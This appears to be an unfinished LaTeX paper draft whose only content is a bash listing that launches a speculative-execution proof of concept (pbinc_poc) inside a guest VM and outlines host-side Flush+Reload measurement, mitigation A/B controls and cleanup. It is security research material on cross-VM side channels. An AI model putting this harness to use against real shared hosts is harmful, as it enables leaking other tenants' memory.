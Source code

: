 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
GADDR=$(cat /sys/kernel/pbinc/gaddr)
ok "Kernel gadget @ ${GADDR}"

echo
echo "  2) Run the PoC with the guest-virtual base of the same SHARED probe"
read -rp "Enter SHARED probe GVA (hex, e.g. 0x555550000000): " SHARED_GVA

ok "Launching pbinc_poc pinned to CPU ${CPU_CORE}"
sudo_or taskset -c "${CPU_CORE}" "${USER_DIR}/pbinc_poc" "${SHARED_GVA}" &

PID=$!
ok "PoC running as PID ${PID} (spins after syscall)."

cat <<'EONOTE'

Next steps (outside this script):
  - Host-side Flush+Reload over the SHARED buffer (1 MiB), watch for hits at offset (0x2A << 12).
  - Optional mechanistic evidence in the guest:
      sudo perf stat -e branch-instructions,branch-misses,machine_clears.memory_ordering -a -- sleep 5
  - A/B controls:
      - Disable entry-IBPB / change mitigation profile => signal vanishes
      - rmmod pbinc_gadget => signal vanishes
      - Rebuild with __alias_tbl empty (training NOP) => no signal
      - Different uarch (non-Zen1/2) => no signal

Cleanup:
  kill -9 <PID>   # stop PoC spin
  (cd kmod && sudo make clean && sudo rmmod pbinc_gadget)
  (cd user && make clean)
EONOTE

# EOF
\end{lstlisting}

\section{Future Work}
ToDo


\section{Conclusion}
ToDo


\end{document}
